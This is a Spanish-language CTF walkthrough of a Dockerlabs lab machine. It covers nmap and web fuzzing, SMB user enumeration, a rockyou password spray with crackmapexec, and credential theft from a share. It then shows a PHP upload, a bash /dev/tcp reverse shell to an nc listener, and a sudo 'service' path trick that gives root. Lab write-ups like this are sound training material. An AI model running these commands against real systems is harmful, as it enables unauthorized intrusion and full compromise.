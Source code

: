 Para iniciar inicimos el tres floder con el el `mkdir scaning explits others` 

 *  **scaning**: Teine los escaneos que hacemos sobre la maquina como nmap, etc.
 * **exploit**: contiene todos los exploits and vulnerabilidades que encontremos de los servicios que tenemos.
 * **Others**: todo los demas tanto ecuciones and info de la machinas.

con el `unzip`  descomprimimos el archivo del allien.zip  para desplegara la maquina de Dockerlabs.

![Pasted image 20241013174516](https://github.com/user-attachments/assets/f45e253c-b507-40c8-bdb0-28c06aaaada4)


`sudo bash auto_deploy.sh allien.tar` --->  lanzamos la maquiana de dokerlabs.

![Pasted image 20241013174947](https://github.com/user-attachments/assets/5c267554-cac9-45e8-a7d9-62efa65fd144)



#### Enumeracion.
usando nmap resaizamos un scaneo y lista de servicios con que encientran en la maquina.
`sudo nmap -p- --open -sS -sCV --min-rate 5000 -n -Pn -vvv 172.17.0.2 -oN scaning.txt`

![Pasted image 20241013175550](https://github.com/user-attachments/assets/0bace9b4-9bf5-47dd-ae77-5b7144cb2bdb)


Observamos los servicios 

| servico | Puerto | version                          |
| ------- | ------ | -------------------------------- |
| ssh     | 22     | OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 |
| HTTP    | 80     | Apache httpd 2.4.58              |
| smb     | 445    | smbd 4.6.2                       |
El primer puerto que enemumerarimos es el 80, por  lo que nos dirigimos al navegador web.

![Pasted image 20241013182032](https://github.com/user-attachments/assets/c8d141d8-9cbb-48f2-8cdc-5e777301fb74)


vemos una sitio web  donde hay que inicar sesion asi que veamos que tecnologias tiene atras.

el **wappalyzer** no reporta mucha cosa incluso los que ya ha reportado el **nmap** asi paso hacer fuzzing web.

`wfuzz -c -t 200 --hc=404,500 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.17.0.2/FUZZ.php`

`gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium -x php`
implementado **wfuzz** o **gobuster** con la expencion de php para ver que encontramos tenmos diferentes rutas.

![Pasted image 20241015092925](https://github.com/user-attachments/assets/e35acbab-4828-41d7-8fdc-396f89704f36)


ok vemos info.php y vemos que son la el archivo de infomacion de php y la otro es la paguina de poductos en la cual no hay mucho que hacer. 

ya que por el puerto 80 no enctramos nado eneumeraremos ahora el puerto 139,445 smb  samba

ok empecemos por smbmap sin usaurio y contraseña pero no obtnemos nada asi que usaremos `rpcclient`

`rpcclient -U "" -N 172.17.0.2` con el comado enumdomusers podemos listar usaurios del sistema y teniemos mucho

![Pasted image 20241015100722](https://github.com/user-attachments/assets/763b9e63-d4a9-427f-9e28-4a3c1185e3e1)


vemos tenome varios usurios entre ellos administrator este no tenemos aceso y otro llamdo satriani7 ok usando crackmapexec haremios un ataque para para obtener aceso de la siguiente manera  

`crackmapexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt`

![Pasted image 20241015101546](https://github.com/user-attachments/assets/7beb9ccf-92a9-42dc-87c6-78aa176ddc1e)


bingo tenemos un exito el usurio  tinene  el password `50cent`


`smbmap -H 172.17.0.2 -u "satriani7" -p "50cent"`

![Pasted image 20241015102449](https://github.com/user-attachments/assets/a49fca24-1459-4893-88bb-32f4b948032b)

 vale ahora smbmap  y tenemos varios archivos **READ ONLY** myshare, backup24. vallamos a ver backup usando **smbclient**

`smbclient //172.17.0.2/backup24 -U 'satriani7%50cent'`

![Pasted image 20241015103901](https://github.com/user-attachments/assets/620c0545-09c3-42c6-810a-bdc582d116cf)
![Pasted image 20241015104015](https://github.com/user-attachments/assets/524c38d3-6609-480b-aee1-e0b2e5612119)


usando los camdo dir y  mget descargamos los dos documento que vemos uno llamdo *credentials.txt* y *notes.tx* asi que vemos que podemos hacer

al obtener cada una de estos usando `mget *` .  abriendo en nuestra maquina el archivo **credentials.txt** vemos la credenciales de administrador.

![Pasted image 20241016145200](https://github.com/user-attachments/assets/6c6ac411-a3fe-4d05-abae-5caa1cc59149)


tenemos la credecial de administrator por lo que podimos usando crackmapexec ver que podemos hacer.

`crackmapexec smb 172.17.0.2 -u 'administrador' -p 'Adm1nP4ss2024' --shares`

![Pasted image 20241016145850](https://github.com/user-attachments/assets/52d61b8a-0471-4972-b01e-d8ca8a9e0f43)

vemos que el usuario administador  tiene premiso de lectura y escritura en el la carpeta de home y quemarca que es poduccion vemos que es lo que obtenemos

usando `smbmap -H 172.17.0.2 -u "administrador" -p "Adm1nP4ss2024" -r home` 
![Pasted image 20241016150740](https://github.com/user-attachments/assets/9fb93597-bd91-4924-930c-7909e79bba24)


vemos una lista de archivos muy parecido a los encontrados al aver listado la rutas del navegador asi que podiamos probrar subiendo un pwned.php y ver que tal y que podemos encontrar.
![Pasted image 20241016151156](https://github.com/user-attachments/assets/bfa17884-7af6-4299-a023-c97cb71a9deb)

subiendo esta codigo podemos ver si podemos ejecutar comando en el sistema.

para susbie el archivo usamos de nuebo smbcliente pero estaves con la credenciales del usario administrador.

`smbclient //172.17.0.2/home -U 'administrador%Adm1nP4ss2024'`

![Pasted image 20241016151822](https://github.com/user-attachments/assets/6a760186-c754-49bf-8d65-b440e9d6fbe1)


y usando el metodo put en smbclient podemos subur el archivo 

ahor si nos dirigimos al buscador podemos ver si ese encuntrae en la lista de direcctorios

![Pasted image 20241016152037](https://github.com/user-attachments/assets/a384bbc2-2af4-4f6d-b4ff-1b99d283deb7)


ok lo emos conseguido ahora solo restar crear un reveshell para obtener una shell en de la maquina victima.

en este caso creamo una reveshell ayudados de [Online - Reverse Shell Generator (revshells.com)](https://www.revshells.com/)

escribiemo y ejecutamos en el navegador 

`bash -c "sh -i >& /dev/tcp/172.17.0.1/443 0>&1"`

y en nustra maquina atacante 

`nc -nlvp 443`


![Pasted image 20241016153310](https://github.com/user-attachments/assets/62bcb598-4b2f-4b52-a8c8-663dafb1f04a)

 bien hecho ya tenemos acesos a la maquiana ahora solo resta trata la tty y escaclar privilejios

 
#### Private Esacalate
luego de tratar la tty  lo primero que hacemos es ejecutar un `sudo -l`

![Pasted image 20241016164447](https://github.com/user-attachments/assets/c3448df7-9011-41a6-80c8-cbdeae1247d6)


vemos que como cualquier usario podemos ejecitar el services busando en GTFBIN 
![Pasted image 20241016164754](https://github.com/user-attachments/assets/9fb4e0e8-b748-4540-b6e4-a4002a0eeffb)


encontramos que pidemos escalar privilejios usando
`sudo /usr/sbin/service ../../bin/bash`

asi que ejecutamos y obetenemos asi un bash como root
![Pasted image 20241016165010](https://github.com/user-attachments/assets/e2872cc3-7ecf-4e56-bc42-10480138ab54)



###### by Juandas13
